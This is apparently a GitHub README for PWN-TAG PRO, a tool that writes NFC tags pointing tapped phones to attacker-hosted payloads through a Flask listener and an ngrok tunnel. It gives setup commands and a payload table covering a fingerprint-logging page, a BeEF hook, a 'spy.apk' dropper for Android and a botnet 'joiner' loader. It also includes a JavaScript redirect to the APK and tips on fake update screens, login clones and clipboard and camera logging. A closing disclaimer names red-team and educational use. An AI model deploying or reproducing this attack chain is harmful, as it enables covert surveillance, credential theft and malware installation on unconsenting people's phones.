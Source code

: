 # PWN-TAG PRO  
_Use with paid ngrok accounts — full zero-click payload delivery_
---
# There are 2 branches in this repository:

-the main branch is for no zero click payload 
delivery due to no paid ngrok accout.

and the pwn_tag_pro branch allows for android zero click payload drlivery with paid ngrok account. 

MAKE SURE YOU ARE IN THE RIGHT BRANCH OF THE REPOSITORY BEFORE PROCEEDING. toggle to switch branches found above. 
---

_"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

##  What You Need

*  NFC tag stickers (~$10 for 25):  
  https://a.co/d/gl2XRV8

*  NFC writer app (free):  
  https://apps.apple.com/app/id1252962749

*  Debian-based Linux system
  
*  [ngrok account](https://ngrok.com/) with paid plan (static subdomain required)

---

##  Branches

| Branch       | Purpose                                                                 |
|--------------|-------------------------------------------------------------------------|
| `main`       | Free-tier version using randomized ngrok URLs (tap + browser confirm)   |
| `ngrok-pro`  | Paid ngrok version with reserved domains → **zero-click payloads**      |

---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
````

Switch to the pro branch:

```bash
git checkout ngrok-pro
```

Install Python dependencies:

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask --break-system-packages
```

---

##  ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Authenticate your account:

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```

Reserve a static domain like `pwn-tag.ngrok.app` inside your ngrok dashboard.

---

##  Usage (2 Terminal Workflow)

### Terminal 1 — Start Flask Payload + Listener Server

```bash
python3 flask_server.py
```

 This now:

* Serves all payloads (HTML, APK, etc.)
* Handles `/testlog`, `/camlog`, `/cliplog`, etc.
* Runs on port `8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http --domain=pwn-tag.ngrok.app 8080
```

 You’re now live at:

```
https://pwn-tag.ngrok.app
```

---

##  Write Your NFC Tag

In your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap to write

Now when someone taps the tag:

* `test_shell.html` loads
* Device fingerprint is POSTed to your listener
* Redirect triggers to any final payload

---

##  Payload Options (Examples)

| Payload               | Path                       | Description                                                |
| --------------------- | -------------------------- | ---------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint, then redirects to real payload           |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads BEEF hook (must run BEEF server separately)          |
| **APK Dropper**       | `payloads/spy.apk`         | Sends APK file directly to Android users                   |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue botnet join behavior — JS beacon or loader |

---

##  Swapping Payloads

Edit this in `payloads/test_shell.html`:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/YOUR_PAYLOAD_HERE";
```

Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 You do **not** need to reprogram your NFC tag if you’re using a static domain.

---

##  Pro Tips

*  Make multiple redirectors: `redirect_to_apk.html`, `redirect_to_bot.html`, etc.
*  Replace `index.html` with a 403 decoy, fake update screen, or login clone
*  Add geolocation or IP info: use `fetch('https://ipinfo.io/json')`
*  Chain with `clipboard.js`, `camlog`, or `result.js` for layered payloads
*  With static ngrok domains, your tags stay valid forever — just update server logic

---

## Ethical Usage

This tool is intended for **educational use, red team simulation, and defense research only.**
Do not deploy it against real targets without consent. You are responsible for your actions.


